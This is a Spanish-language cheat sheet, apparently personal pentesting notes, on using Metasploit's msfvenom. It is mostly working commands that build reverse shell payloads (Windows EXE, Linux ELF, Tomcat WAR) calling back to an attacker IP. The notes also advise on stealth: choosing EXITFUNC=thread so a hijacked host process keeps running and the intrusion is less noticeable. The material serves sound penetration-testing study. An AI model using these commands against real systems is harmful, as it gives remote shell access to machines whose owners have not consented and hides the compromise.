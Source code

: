 #msfvenom 

-----

Es una herramienta del framework Metasploit que se usa para generar **payloads personalizados**, como **reverse shells** y **bind shells**. Permite crear **shellcode** en distintos formatos (Python, C, exe, etc.) para inyectarlo en exploits o archivos ejecutables. Es muy útil en pruebas de penetración para simular ataques reales.


```
msfvenom -p Payload LHOST=IpDeNuestraMaquina LPORT=PuertoQueEstaEnEscucha EXITFUNC=thread -b BadCharts -v shellcode -f FormatoDeSalida -a Arquitectura --platform SistemaOperativo
Ejemplo: msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -v shellcode -f py -a x86 --platform windows
```

*Parametros:*
`-p` Ingresamos el payload que queremos inyectar | Ejemplo 
	Los payload mas comunes que vamos a usar son: 
		*Windows:* 
			`32Bits:`windows/shell_reverse_tcp 
			`64Bits:`windows/x64/shell_reverse_tcp
		*Linux:*
			`32Bits:`linux/x86/shell_reverse_tcp
			`64Bits:`linux/x64/shell_reverse_tcp
`LHOST=` Nuestra ip
`LPORT=` Puerto que esta en escucha para recibir la [[Reverse shell]]
`EXITFUNC=` Define como termina el proceso al ejecutar el payload, la forma mas segura y sigilosa es usar *thread*
	Ejemplo de por que usar thread: Si yo inyecto el shellcode desde el proceso de la calculadora, usando EXITFUNC=thread el proceso de la calculadora sigue activo cuando yo cierro mi revershell, pero si no tuvierea el EXITFUNC=thread, cuando cierro mi revershell tambien se cierra la calculadora y esto seria poco sigiloso
`-b` Son los badcharts que tenemos que evitar para que se rompa el shellcode
`-v` Es para darle un nombre a la variable que tiene el shell code
	Ejemplos:
		Si ponemos de nombre buf, el shellcode se va a expotar asi: *buf += b"\xfc\xe8\x89..."*
		Pero si colocamos legacy va a exportarse de la siguiente manera: *legacy += b"\xfc\xe8\x89..."*
`-f` Formato de salida. Por ejemplo puede ser py, exe, bin, etc
`-a`Especificamos si la maquina victima es de *x86*(32bits) o *x64*(64bits)
`--platform` Sistema operativo de la maquina victima. Puede ser *windows* o *linux*

-------
# Comando para ver todos los payloads

```shell
msfvenom -l payloads
```


-------
# [[Reverse shell]]

#### Payload para tomcat archivo.war
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.11 LPORT=443 -f war -o shell.war
```

#### Payload para linux exploit.elf
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.15 LPORT=5002 -f elf -o exploit.elf  
```

#### Payload para windows 32bits exploit.exe
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.15 LPORT=500 -f exe -o exploit.exe  
